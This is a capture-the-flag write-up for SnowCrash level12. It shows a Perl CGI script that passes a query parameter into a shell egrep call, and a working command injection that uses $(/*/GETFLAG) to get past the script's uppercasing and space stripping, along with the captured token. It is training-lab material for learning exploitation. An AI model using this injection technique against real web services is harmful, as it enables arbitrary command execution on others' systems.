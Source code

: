 # Flag 12

In levele12 we have a perl script that that expect two queries x & y and serve html/text file on port 4646.

```
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));

```
The script only using the x param after capitalizing it's charachters and removing all spaces and what's come after them after that it excutes egrep command using the result, so if we get to give it our getflag command without using space or lowerccae charachters we will get our flag.

```
level12@SnowCrash:~$ echo "getflag > /tmp/flag12" > /tmp/GETFLAG && chmod +x /tmp/GETFLAG
level12@SnowCrash:~$ curl -X GET "localhost:4646/?x=\$(/*/GETFLAG)"
..level12@SnowCrash:~$ cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

```

With the same commands we can get the level04 flag, we need just to change the port.

